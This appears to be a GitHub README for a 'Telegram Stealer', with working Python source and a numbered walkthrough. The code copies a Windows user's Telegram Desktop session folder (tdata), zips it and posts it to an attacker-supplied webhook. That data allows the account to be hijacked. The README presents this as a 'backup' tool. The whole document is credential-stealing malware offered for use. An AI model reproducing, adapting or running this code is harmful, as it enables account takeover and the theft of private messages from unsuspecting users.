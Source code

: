 ## Telegram Stealer

This code is written in Python and performs a specific task related to the messaging application Telegram. The purpose of this code is to create a backup of Telegram's data from the user's computer and send it to a webhook or API specified by the user.

## Code

```python
import os, os.path, shutil, requests
javaskript = os.path.expanduser("~")

verifiedWH = "here use your wh / api"

def telegram():
  if os.path.exists(javaskript+"\\AppData\\Roaming\\Telegram Desktop\\tdata"):
   try:
    shutil.copytree(javaskript+'\\AppData\\Roaming\\Telegram Desktop\\tdata', javaskript+'\\AppData\\Local\\Temp\\tdata_session')
    shutil.make_archive(javaskript+'\\AppData\\Local\\Temp\\tdata_session', 'zip', javaskript+'\\AppData\\Local\\Temp\\tdata_session')
   except:
    pass
    try:
     os.remove(javaskript+"\\AppData\\Local\\Temp\\tdata_session")
    except:
        pass
    with open(javaskript+'\\AppData\\Local\\Temp\\tdata_session.zip', 'rb') as f:
     paython = {
        'file': (javaskript+'\\AppData\\Local\\Temp\\tdata_session.zip', f, 'zip')
     }    
     r = requests.post(verifiedWH, files=paython)
telegram()
```

### Steps

1. The code imports necessary modules like os, shutil and requests. 
2. It then sets a variable called `javaskript` as the path of the user's home directory.
3. A webhook or API is then specified by the user and assigned to the variable `verifiedWH`.
4. The `telegram()` function is defined and called.
5. The function first checks if the Telegram Desktop application's data directory exists in the user's AppData directory.
6. If it exists, the function then copies the Telegram data directory to a temporary directory created in the user's AppData directory.
7. The `shutil` module is then used to create a compressed archive of the temporary directory using the `make_archive()` function.
8. If an error occurs during the copy or compression process, the function skips to the next step.
9. The compressed archive is then uploaded to the webhook or API specified by the user using the `requests` module.
10. The file is uploaded as a binary file using a dictionary with the key "file" and value as a tuple containing the file path, file object and file type.
11. If the upload is successful, the function ends.
